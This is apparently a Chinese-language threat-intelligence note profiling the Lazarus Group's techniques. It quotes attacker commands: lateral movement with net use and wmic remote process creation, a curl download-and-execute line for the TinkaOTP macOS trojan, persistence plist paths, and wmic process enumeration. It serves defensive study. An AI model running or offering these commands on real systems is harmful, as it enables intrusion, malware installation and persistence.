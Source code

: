 # Lazarus Group

## 特征

1. 横向移动时会使用:net use \\[IP地址]\IPC$ "[密码]" /u:"[用户名]" > $temp\~tmp5936t.tmp 2>&1"命令与远程主机建立网络连接，然后会使用WMI将恶意软件复制到远程主机.

```bash
wmic.exe /node:[IP地址] /user:"[用户名]" /password:"[密码]" PROCESS CALL CREATE "cmd.exe /c $appdata\Adobe\adobe.bat"
wmic.exe /node:[IP地址] /user:"[用户名]" /password:"[密码]" PROCESS CALL CREATE "cmd /c sc queryex helpsvc > $temp\tmp001.dat"
```

2. 针对MacOS系统的TinkaOTP木马两个变体都是伪装成.nib文件的Mach-O二进制文件，其中第二个版本则没有携带payload，而是将其C2地址嵌入到TinkaOTP包的主要执行文件中，通过命令：curl -k -o ~/Library/.mina https://域名/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev/null 2>&1，下载Payload.
而后，TinkaOTP木马通过/LaunchAgents/com.aex-loop.agent.plist和/Library/LaunchDaemons/com.aex-loop.agent.plist来维持持久.

3. RATANKBA后门会使用WMI收集受感染主机的运行进程、命令行、会话ID信息将其发送到C2服务器.

```bash
"C:\Windows\system32\cmd.exe" /c "wmic process get processid,commandline,sessionid | findstr SysWOW"
"C:\Windows\system32\cmd.exe" /c "wmic process get processid,commandline,sessionid | findstr x86"
//显示运行进程、命令行、会话ID
```
